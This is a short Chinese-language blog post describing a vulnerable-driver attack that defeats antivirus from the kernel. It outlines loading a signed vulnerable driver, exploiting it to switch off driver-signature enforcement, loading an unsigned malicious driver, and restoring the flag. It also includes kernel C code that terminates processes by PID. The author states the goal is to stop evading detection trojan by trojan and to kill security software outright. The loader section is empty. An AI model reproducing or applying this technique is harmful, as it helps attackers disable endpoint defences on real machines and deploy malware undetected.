 # VulnBins的利用 \(vuln driver\)

## 简介

挺久没水博客了，今个简单写点，现在的杀软越来越"现代化"了，老是尝试免杀已有木马使我疲惫，干脆想重一劳永逸的解决办法，\(自写C2 狗头\),当然这是个体力活，这篇文件简单介绍下白漏洞驱动带起黑驱动，直接从内核干掉杀软。

## 流程

1. 找一个存在任意文件读取的漏洞驱动
2. 加载驱动并漏洞利用修改内核DES位\(作用于驱动签名校验\)
3. 加载黑驱动
4. 漏洞利用改回原值
5. 卸载白驱动

### 代码片段

### 鲨进程 驱动片段

获取当前进程EPROCESS,遍历ActiveProcessLinks获取和判断进程,符合条件就给扬了,当然最好用点强杀手段。

```text
BOOLEAN KillProcess(ULONG PID)
{
	NTSTATUS ntStatus = STATUS_SUCCESS;
	PVOID hProcess;
	PEPROCESS pEprcess;
	ntStatus = PsLookupProcessByProcessId(PID, &pEprcess);

	if (NT_SUCCESS(ntStatus))
	{
		if (ObOpenObjectByPointer((PVOID)pEprcess, 0, NULL, 0, NULL, KernelMode, &hProcess) != STATUS_SUCCESS)
			return FALSE;
		ZwTerminateProcess((HANDLE)hProcess, STATUS_SUCCESS);
		ZwClose((HANDLE)hProcess);
		return TRUE;
	}
	return FALSE;
};

```

### Loader

```text

```



